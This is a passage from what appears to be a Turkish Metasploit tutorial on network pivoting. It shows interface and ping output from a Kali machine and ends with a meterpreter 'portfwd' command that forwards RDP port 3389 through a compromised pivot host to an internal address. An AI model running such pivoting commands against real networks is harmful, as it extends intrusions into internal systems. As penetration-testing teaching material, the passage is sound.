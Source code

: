 ```bash
Hardware MAC: 00:bb:00:bb:00:bb
IP Address  : 192.168.1.191
Netmask     : 255.0.0.0
```



## Yerel Bilgisayar



Birazdan aşağıda göreceğiniz yönlendirme sonucunda yerel bilgisayarımızın (192.168.1.162 IP numaralı), **pivot** makine üzerinden `172.16.194.141` IP adresine `ping` sinyali gönderebildiğini görebiliyoruz.


```bash
root@kali:~# ifconfig eth1
eth1     Link encap:Ethernet  HWaddr 0a:0b:0c:0d:0e:0f  
         inet addr:192.168.1.162  Bcast:192.168.1.255  Mask:255.255.255.0
         inet6 addr: fe80::20c:29ff:fed6:ab38/64 Scope:Link
         UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
         RX packets:1357685 errors:0 dropped:0 overruns:0 frame:0
         TX packets:823428 errors:0 dropped:0 overruns:0 carrier:0
         collisions:0 txqueuelen:1000 
         RX bytes:318385612 **(**303.6 MiB**)**  TX bytes:133752114 **(**127.5 MiB**)**
         Interrupt:19 Base address:0x2000


root@kali:~# ping 172.16.194.141
PING 172.16.194.141 **(**172.16.194.141**)** 56**(**84**)** bytes of data.
64 bytes from 172.16.194.141: icmp_req**=**1 ttl**=**128 time**=**240 ms
64 bytes from 172.16.194.141: icmp_req**=**2 ttl**=**128 time**=**117 ms
64 bytes from 172.16.194.141: icmp_req**=**3 ttl**=**128 time**=**119 ms
^C
--- 172.16.194.141 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev **=** 117.759/159.378/240.587/57.430 ms

root@kali:~#
```



Peki bu haberleşmeyi nasıl başardık?



## Yönlendirme Yapalım



**pivot** bilgisayarda açtığımız meterpreter shell içerisinde iken aşağıdaki yönlendirme işlemini gerçekleştirdik.


```bash
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
```
